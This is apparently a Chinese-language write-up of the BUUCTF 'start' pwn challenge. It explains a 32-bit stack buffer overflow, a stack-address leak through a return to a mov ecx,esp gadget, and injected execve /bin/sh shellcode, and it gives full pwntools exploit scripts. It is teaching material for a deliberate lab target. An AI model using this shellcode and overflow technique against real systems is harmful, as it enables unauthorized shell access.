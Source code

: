 ### 内平栈注入

话不多说，直接上题（BUUCTF）

![](https://pic1.imgdb.cn/item/67dd4b4588c538a9b5c2e7ee.png)

没法反编译为伪代码

![](https://pic1.imgdb.cn/item/67dd4b6988c538a9b5c2e7f6.png)

一开始调用 write 函数输出了 let’s start the ctf

4 是write函数的调用号，之后的调用号是 3，调用了 read 函数

我们知道 dl 这个寄存器是控制输入字符的多少的，也就是所我们可以输入 0x3c 个字符

```c
write(1，buf，0x14)
read(0，buf，0x3C)
```

通过最后的 add esp,14h 我们可以知道 esp 距离 ret 的地址 0x14 个字节（内平栈）

![](https://pic1.imgdb.cn/item/67dd504288c538a9b5c2e8c3.png)

也就是我们输入的参数 buf 的大小只有 0x14，但是我们读入了 0x3c，存在溢出漏洞

`0x8048087` 之前栈上压入了 7 个数据，之后 read()、write() 函数调用完后 esp 始终没有变化，直到出现了 `add esp,0x14`

这使得 esp 此时指向第二个压入的数据，也就是 `offset _exit` 的地址

![](https://pic1.imgdb.cn/item/67dd55f688c538a9b5c2edbf.png)

其上面就是第一次压入的数据（栈的地址，就是即将被泄露的栈的地址）

![](https://pic1.imgdb.cn/item/67dd552888c538a9b5c2ecaa.png)

如上，栈第二个地方存的就是第一个被压入的数据，也就是其下面的栈的地址

由于使用的内平栈，没有 ebp，覆盖完 buf 后就是 ret，其实看上方的汇编就知道了

这句 payload 将程序执行流转到了去执行 write 函数

所以当 paylaod 发送时，返回 `0x08048087: mov ecx, esp ; addr` 到这里执行

使 ecx 指向栈顶，此时栈顶就是第一个被压入的数据，存的正是栈的初始地址，可以被泄露

```python
mov_ecx_esp = 0x08048087

payload = b'a' * 0x14 + mov_ecx_esp

p.sendafter(':', payload)
```

![](https://pic1.imgdb.cn/item/67dd521388c538a9b5c2e905.png)

因为第二次执行完 read 之后执行了 `add esp,14h`

此时 esp 指向的就是即将执行的 shellcode 的地址，而 shellcode 的地址正是泄露的 `stack_addr + 0x14`

```python
shellcode = '''
xor ecx,ecx
xor edx,edx
push edx
push 0x68732f6e
push 0x69622f2f
mov ebx,esp
mov al,0xb
int 0x80
'''

shellcode = asm(shellcode)

payload = b'A' * 0x14 + p32(stack_addr + 0x14) + shellcode

p.send(payload)
p.interactive()
```

完整 payload

```python
from pwn import *

p = process('./start')
#p = remote('node5.buuoj.cn',29955)

payload = b'A' * 0x14 + p32(0x8048087)

p.sendafter("Let's start the CTF:",payload)

stack_addr = u32(p.recv(4))

print(hex(stack_addr))
gdb.attach(p)

shellcode = '''
xor ecx,ecx
xor edx,edx
push edx
push 0x68732f6e
push 0x69622f2f
mov ebx,esp
mov al,0xb
int 0x80
'''

shellcode = asm(shellcode)

payload = b'A' * 0x14 + p32(stack_addr + 0x14) + shellcode

p.send(payload)
p.interactive()

```

